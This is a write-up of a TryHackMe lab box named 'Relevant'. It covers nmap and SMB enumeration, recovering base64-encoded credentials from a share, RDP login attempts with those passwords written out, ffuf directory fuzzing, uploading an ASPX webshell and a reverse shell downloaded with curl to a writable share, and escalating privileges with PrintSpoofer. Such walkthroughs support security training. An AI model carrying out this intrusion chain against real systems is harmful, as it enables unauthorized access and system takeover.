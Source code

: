 *2021-09-03*

*kimm3*

# Walkthrough: Relevant
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/relevant)

![info](assets/markdown-img-paste-20210901092531964.png)
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history
export IP=10.10.96.187
ping $IP
```

(Machine responds to ICMP)

(Had to reset the machine due to it freezin up, so IP changes in the walkthrough.)
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-2021090109333615.png)

A windows machine, no domain, computer name 'relevant'. IIS server at 80 (and maybe at 49663?), smb(2) enabled and a rdp service at 3389. Let' start exploring.

### http
![index-p80](assets/markdown-img-paste-20210901093520970.png)

Standard IIS page at port 80 and the same at 49663. This threw me off for quite some time because that port didn't respond at first. This happened a few time during the box, had to reset it to get it working again.

![notresponding](assets/markdown-img-paste-20210901113429663.png)


### smb
`smbclient -N -L $IP | tee scans/smblist.txt`

![smbinit](assets/markdown-img-paste-20210901093649815.png)

```
smbclient -Nv //$IP/nt4wrksv
dir
lcd foundfiles
get passwords.txt
```

![smbpasswords](assets/markdown-img-paste-20210901093917329.png)

![passwordtxt](assets/markdown-img-paste-20210901094017266.png)

Encoded passwords. Luckily for us, encoded with base64.

![decodedpw](assets/markdown-img-paste-20210901094159643.png)

### rdp
Let's give that rdp service a try with these credentials.

```
xfreerdp /u:Bob /p:!P@$$W0rD!123 /v:$IP
xfreerdp /u:Bill /p:'Juw4nnaM4n420696969!$$$' /v:10.10.96.187:3389
```

![bob-failed](assets/markdown-img-paste-20210901094946345.png)

![bill-expiredpw](assets/markdown-img-paste-20210901095005938.png)

Not sure if rdp knowledge is inadequate or if they don't have permissions/expired passwords. Letting that one go for now.

### futher http
Nothing too obviouis so far, so I'm gonna start scanning the webservers - they have to be there for a reason.

```
sudo nmap $IP -p 80 --script http-enum,http-iis-short-name-brute -oA scans/nmap-http80
ffuf -u "http://10.10.60.134/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdirp80'
ffuf -u "http://10.10.60.134:49663/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdirp49663'
```

Nothing.

I'm going to do som really wide searches - adding a bigger list combined with a lot of extensions. I'll let them run in the background and read up on rdp and smb while it's going.

```
ffuf -u "http://10.10.60.134/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-indexdir-med-ext-p80 -e $(cat tools/webext.txt)
ffuf -u "http://10.10.60.134:49663/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-indexdir-med-ext-p49663 -e $(cat tools/webext.txt)
```

![dirfound](assets/markdown-img-paste-20210901121328826.png)

We can browse to the address but it's empty. The folder is the same as the smb share, we can view the 'passwords.txt' in the browser. Starting another scan to recurse one level down, meanwhile I'm gonna see if that share is writeable.

![passwordstxtagain](assets/markdown-img-paste-20210901123452456.png)

```
ffuf -u "http://10.10.202.156:49663/nt4wrksv/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -e html,php -of md -o scans/ffuf-nt4wrks-dir-p49663
```
## Foothold/Exploit
If we have write permission on the share, we have good chances on getting us a reverse shell.

![echohejtest](assets/markdown-img-paste-20210901123514930.png)

![testtxtbrowse](assets/markdown-img-paste-20210901123601980.png)

Yup. If we can find a protocol that works(like PHP or aspx) we can put a payload/revshell on the server and execute it.

First try: php, didn't work. Then I tried the cmdasp.aspx.

![whoami](assets/markdown-img-paste-20210901125853782.png)

Works, let's get a proper shell instead.

`curl "https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx" > upload/shell.aspx`

![usertxt](assets/markdown-img-paste-20210901130031410.png)

It works and we can get to Bobs desktop to get 'user.test'.

## Privilege Escalation
![uploadfolder](assets/markdown-img-paste-20210901130252373.png)

We have at least one folder we know that we can upload stuff to, let's use winPEAS and output a file in that folder so that we can retrieve for analysis on our local machine.

![seimpersenabled](assets/markdown-img-paste-2021090123014293.png)

Seems that the SeImpersonatePrivilege token is enabled. Text from hacktricks:

![seimpersonateinfo](assets/markdown-img-paste-20210901164331893.png)

I tried the JuicyPotato first, but I think AV might have grabbed it. It didn't run and then it got removed. The Printspoofer however, worked.

![roottxt](assets/markdown-img-paste-20210901163230807.png)

More info on the subject:
- https://github.com/itm4n/PrintSpoofer
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
